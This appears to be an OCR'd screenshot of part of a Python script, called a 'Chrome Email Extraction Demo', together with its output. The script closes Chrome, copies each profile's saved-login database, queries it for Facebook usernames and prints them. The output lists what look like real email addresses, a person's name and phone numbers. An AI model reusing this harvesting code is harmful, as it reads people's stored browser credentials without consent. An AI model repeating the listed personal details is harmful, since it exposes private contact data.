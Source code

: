 ```python
    
    for profile_name, db_path in profiles:
        print(f"\n📂 Processing {profile_name}...")
        
        # Copy database
        temp_db = f"/tmp/chrome_{profile_name}.db"
        shutil.copy2(db_path, temp_db)
        
        # Query database
        conn = sqlite3.connect(temp_db)
        cursor = conn.cursor()
        
        cursor.execute("""
            SELECT origin_url, username_value
            FROM logins
            WHERE origin_url LIKE '%facebook%'
        """)
        
        results = cursor.fetchall()
        
        for url, username in results:
            if username:
                print(f"   📧 Found: {username}")
                all_emails.append(username)
        
        conn.close()
        os.remove(temp_db)
    
    # Step 4: Summary
    print("\n" + "=" * 60)
    print("📊 EXTRACTION COMPLETE")
    print("=" * 60)
    print(f"Total emails/usernames found: {len(all_emails)}")
    print()
    
    for email in set(all_emails):
        print(f"   📧 {email}")
    
    return all_emails

if __name__ == "__main__":
    extract_facebook_emails()
```

**Output:**
```
🔐 Chrome Email Extraction Demo
============================================================
✅ Found profile: Profile 1
✅ Found profile: Profile 2
✅ Found profile: Profile 5

🔨 Closing Chrome...
✅ Chrome closed

📂 Processing Profile 5...
   📧 Found: jareye6694@gmail.com
   📧 Found: javirobo88@gmail.com
   📧 Found: javi reyes
   📧 Found: 9415652936
   📧 Found: 6159682825
   📧 Found: 7182001368

============================================================
```